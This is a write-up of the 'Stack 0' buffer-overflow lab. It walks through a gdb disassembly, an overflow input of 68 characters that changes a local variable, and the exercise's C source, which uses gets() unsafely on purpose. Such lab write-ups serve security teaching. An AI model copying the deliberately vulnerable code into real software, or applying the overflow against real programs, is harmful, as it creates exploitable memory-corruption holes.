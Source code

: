 # Stack 0

## Problem

We take the primitive approach to check the main program and we see that there is a gets() function that we can potentially exploit. From here we also know that the program will take in at least one input to store this input in some variable.

```gdb
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
```

We can also see that there is likely to be a buffer from 0x1C-0X5c, representing a total of 64bytes which could suggest that there might be a stack of such a size. On `main+33` we notice that there is a comparison before some execution.

## Idea and Attack process

We first run the program with a random guess to find out the output of the program.

```shell
./stack0
123
>>>Try again?
```

Now we can try to overflow the stack and see what happens. We try to input 64char along with 4 additional char to test.

```shell
./stack0
12345678901234567890123456789012345678901234567890123456789012341234
>>>you have changed the 'modified' variable
```

Success, and now we can see that the compare statement could be an `if` statement in the source code which is an exit and to prompt us to try again.

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```